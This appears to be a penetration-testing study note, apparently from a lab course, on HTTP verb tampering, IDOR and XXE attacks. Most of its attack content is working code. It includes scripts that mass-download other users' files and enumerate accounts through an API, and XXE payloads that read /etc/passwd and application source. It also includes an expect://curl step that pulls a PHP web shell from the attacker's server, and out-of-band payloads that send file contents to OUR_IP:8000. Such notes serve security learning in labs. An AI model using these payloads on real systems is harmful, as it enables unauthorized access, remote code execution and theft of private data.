


# **HTTP Verb Tampering**

| Verb | Description |
| --- | --- |
| `HEAD` | Identical to a GET request, but its response only contains the `headers`, without the response body |
| `PUT` | Writes the request payload to the specified location |
| `DELETE` | Deletes the resource at the specified location |
| `OPTIONS` | Shows different options accepted by a web server, like accepted HTTP verbs |
| `PATCH` | Apply partial modifications to the resource at the specified location |

Exploiting HTTP Verb Tampering vulnerabilities is usually a relatively straightforward process. We just need to try alternate HTTP methods to see how they are handled by the web server and the web application.

## Scenario: HTTP Basic Auth prompt

### Identify


As we do not have any credentials, we will get a `401 Unauthorized` page:


### **Exploit**


We are changing the request method to POST. If we receive the same response status code (401) we can try with other methods.

Once we change `POST` to `HEAD` and forward the request, we will see that we no longer get a login prompt or a `401 Unauthorized` page and get an empty output instead, as expected with a `HEAD` request.

## Scenario: Bypass Injection filters

### **Identify**

In the `File Manager` web application, if we try to create a new file name with special characters in its name (e.g. `test;`)


### **Exploit**

**Changing method POST → GET**


This time, we did not get the `Malicious Request Denied!` message, and our file was successfully created

# Insecure Direct Object References (IDOR)

## Examples

### Static IDOR

```html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

### Dynamic IDOR

```bash
/documents.php?=file_1.pdf
/documents.php?=file_2.pdf
```

### AJAX Calls

```jsx
function changeUserPassword() {
    $.ajax({
        url:"change_password.php",
        type: "post",
        dataType: "json",
        data: {uid: user.uid, password: user.password, is_admin: is_admin},
        success:function(result){
            //
        }
    });
}
```

### AJAX Calls - Encoding the file name

```jsx
$.ajax({
    url:"download.php",
    type: "post",
    dataType: "json",
    data: {filename: CryptoJS.MD5('file_1.pdf').toString()},
    success:function(result){
        //
    }
});
```

## **IDOR Enumeration**

### Scenario: Logged-in as standard user account, and checking documents

```bash
http://SERVER_IP:PORT/documents.php?uid=1

RESULT:
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

### uid=1 → uid=2

```html
http://SERVER_IP:PORT/documents.php?uid=2

If we look at the linked files, or if we click on them to view them,
we will notice that these are indeed different files, which appear to 
be the documents belonging to the employee with uid=2

RESULT:
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```

**ALWAYS CHECK THE SOURCE CODE!**

## **MASS IDOR Enumeration**

The source code presents documents in the following format:

```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

### Capturing Document links

```bash
curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"
```

### Capturing Document names only

```bash
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```

### Download each document (bash script)

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done

```

## **Bypassing Encoded References**

## **Function Disclosure**

If we take a look at the link in the source code, we see that it is calling a JavaScript function with `javascript:downloadContract('1')`. Looking at the `downloadContract()` function in the source code, we see the following:

```jsx
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}

```

**Replicating the function**

```bash
echo -n 1 | base64 -w 0 | md5sum
```

### **Mass Enumeration**

```bash
for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done
```

**Script to download files**

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done

```

## **IDOR in Insecure APIs**

### Scenario

We click on the `Edit Profile` button, we are taken to a page to edit information of our user profile, namely `Full Name`, `Email`, and `About Me`, which is a common feature in many web applications.


### Intercepting update request


**Note:** `PUT` requests are usually used in APIs to update item details, while `POST` is used to create new items, `DELETE` to delete items, and `GET` to retrieve item details. 

## **Exploiting Insecure APIs**

### IDOR Insecure Function Calls

There are a few things we could try in this case:

1. Change our `uid` to another user's `uid`, such that we can take over their account


1. Create new users with arbitrary details, or delete existing users

we can try to create a new user with a `POST` request to the API endpoint. We can change the request method to `POST`, change the `uid` to a new `uid`, and send the request to the API endpoint of the new `uid`:



1. Change our role to a more privileged role (e.g. `admin`) to be able to perform more actions


## **Chaining IDOR Vulnerabilities**

### **Information Disclosure**

Send a `GET` request with another `uid`:



### **Modifying Other Users' Details**


### Enumerating Users using API GET-Request (python script)

```python
import requests

for i in range(1,101):
    url=f'http://94.237.63.109:50507/profile/api.php/profile/{i}'
    try:
        response = requests.get(url, timeout=5)
        if response.status_code == 200:
            try:
                print(response.json())
            except:
                print(f'User with id={i} not found :(')
        else:
            print('[!] Error')
    except requests.RequestException as e:  # Captura errores como timeout, conexión rechazada, etc.
        print(f"[!] ID {i} - Error al realizar la solicitud: {e}. Saltando.")
```

### **Chaining Two IDOR Vulnerabilities**

By combining the information we gained from the `IDOR Information Disclosure vulnerability` with an `IDOR Insecure Function Calls` attack on an API endpoint, we could modify other users' details and create/delete users while bypassing various access control checks in 
place.

if we obtain a user role like admin, we can try to perform the same actions but using the admin role.

**Creating a new user with admin role (using admin role and POST request)**


# **XXE (XML External Entity)**

## XML Example

```xml
<?xml version="1.0" encoding="UTF-8"?>
<email>
	<date>01-01-2022</date>
	<time>10:00 am UTC</time>
	<sender>john@inlanefreight.com</sender>
	<recipients>
		<to>HR@inlanefreight.com</to>
		<cc>
			<to>billing@inlanefreight.com</to>
			<to>payslips@inlanefreight.com</to>
		</cc>
	</recipients>
	<body>
  Hello,
      Kindly share with me the invoice for the payment made on January 1, 2022.
  Regards,
  John
  </body>
 </email>
```

## **XML DTD Example**

`XML Document Type Definition (DTD)` allows the validation of an XML document against a pre-defined document structure

```xml
<!DOCTYPE email [
  <!ELEMENT email (date, time, sender, recipients, body)>
  <!ELEMENT recipients (to, cc?)>
  <!ELEMENT cc (to*)>
  <!ELEMENT date (#PCDATA)>
  <!ELEMENT time (#PCDATA)>
  <!ELEMENT sender (#PCDATA)>
  <!ELEMENT to  (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
]>
```

The above DTD can be placed within the XML document itself, right after the `XML Declaration` in the first line. Otherwise, it can be stored in an external file (e.g. `email.dtd`), and then referenced within the XML document with the `SYSTEM` keyword, as follows:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "email.dtd">
```

It is also possible to reference a DTD through a URL, as follows:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "http://inlanefreight.com/email.dtd">
```

## **XML Entities**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

## **Local File Disclosure**

### **Identifying**


As we can see, the form appears to be sending our data in an XML format to the web server, making this a potential XXE testing target.

We see that the value of the `email` element is being displayed back to us on the page. To print the content of an external file to the page, we should `note which elements are being displayed, such that we know which elements to inject into`

**Adding A New Entity**

```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

**Note:** In our example, the XML input in the HTTP request had no DTD being declared within the XML data itself, or being referenced externally, so we added a new DTD before defining our entity. If the `DOCTYPE` was already declared in the XML request, we would just add the `ENTITY` element to it.


As we can see, the response did use the value of the entity we defined (`Inlane Freight`) instead of displaying `&company;`, indicating that we may inject XML code. In contrast, a non-vulnerable web application would display (`&company;`) as a raw value. `This confirms that we are dealing with a web application vulnerable to XXE`.

**Note:** Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the `Content-Type` header to `application/xml`, and then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm).  If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.

##### **JSON To XML Converter**

[JSON To XML Converter](https://www.convertjson.com/json-to-xml.htm)

### **Reading Sensitive Files**

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```


Note: If a file contains some of XML's special characters (e.g. `<`/`>`/`&`), it would break the external entity reference and not be used for the reference

### Using PHP Wrapper

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

## **Remote Code Execution with XXE**

### PHP Expect Filter

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands.

```bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

Then, applying XXE

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name>
</name>
<tel>
</tel>
<email>
	&company;
</email>
<message>
</message>
</root>
```

**Note:** We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.

## **Advanced File Disclosure**

### **Advanced Exfiltration with CDATA**

To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`).  This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

This will not work, since XML prevents joining internal and external entities

### XML Parameter Entities

To bypass this limitation, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD.  What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined, as follows:

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

we can reference our external entity (`xxe.dtd`) and then print the `&joined;` entity we defined above, which should contain the content of the `submitDetails.php` file, as follows:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->

```

## **Error Based XXE**

**Scenario: None of the XML input entities is displayed on the screen. Because of this, we have no entity that we can control to write the file output, but we can use web server displaying PHP runtime errors, to read the content of files from the displayed errors**

### Send malformed XML data

To do so, we can delete any of the closing tags, change one of them, so it does not close (e.g. `<roo>` instead of `<root>`), or just reference a non-existing entity.


We see that we did indeed cause the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files.

### Create a DTD file that contains a payload

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

Now, we can call our external DTD script, and then reference the `error` entity, as follows:

```xml
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

## **Blind Data Exfiltration**

### **Out-of-band Data Exfiltration**

**Scenario:** we will see how we can get the content of files in a completely blind situation, where we neither get the output of any of the XML entities nor do we get any PHP errors displayed.

We will make the web application send a web request to our web server with the content of the file we are reading. 

**PAYLOAD**

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

**XXE**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

## **Automated OOB Exfiltration**

 Copy the HTTP request from Burp and write it to a file for the tool to use:

```
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

### Using XXEInjector

```bash
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxeREQUESTFILE.req --path=/etc/passwd --oob=http --phpfilter
```

# Others

## SSRF To Local File Read Using HTML Injections in pdf files

[SSRF to Local File read through HTML injection in PDF file](https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f)
